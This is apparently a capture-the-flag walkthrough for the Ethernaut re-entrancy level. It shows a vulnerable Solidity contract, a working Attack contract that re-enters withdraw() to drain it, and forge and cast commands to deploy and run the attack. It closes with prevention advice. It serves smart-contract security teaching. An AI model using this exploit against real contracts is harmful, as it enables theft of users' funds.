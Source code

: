 ## Re-entrancy Level Outline

**Difficulty : 6/10**

The goal of this level is for you to steal all the funds from the contract.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xe6BA07257a9321e755184FB2F995e0600E78c16D)

## Solution
Re-entrancy attacks continiously call the withdraw function from a vulnerable contract till it is drained. This happens because ETH is sent out of the contract before the ETH is deducted from it's mapping/tracking variable.

### Walkthrough

1. create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Attack {
    Reentrance reentrance;  
    uint256 amount = 0.001 ether;

    constructor(address _reentrance) {
        reentrance = Reentrance(_reentrance); 
    }

    receive() external payable {
        if (address(reentrance).balance >= 0) {
            reentrance.withdraw(amount);
        }
    }

    function attack() public payable {
        reentrance.donate{value: msg.value}(address(this));
        reentrance.withdraw(amount);
    }
}

interface Reentrance {
    function withdraw(uint _amount) external;
    function donate(address _to) external payable;
}
```

2. deploy our new contract
```console
forge create src/Contract.sol:Attack --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

3. call the "attack()" function on our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "attack()" --value 0.01ether --gas 200000 --private-key $PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## Further Reading
[Video](https://www.youtube.com/watch?v=4Mm3BCyHtDY&t=321s) showing example of Re-entrancy attack 

To prevent re-entrancy attacks, use the [Check-Effects-Interactions pattern](https://docs.soliditylang.org/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) or use OpenZepplin's [Reentrancy Guard Contract](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard)

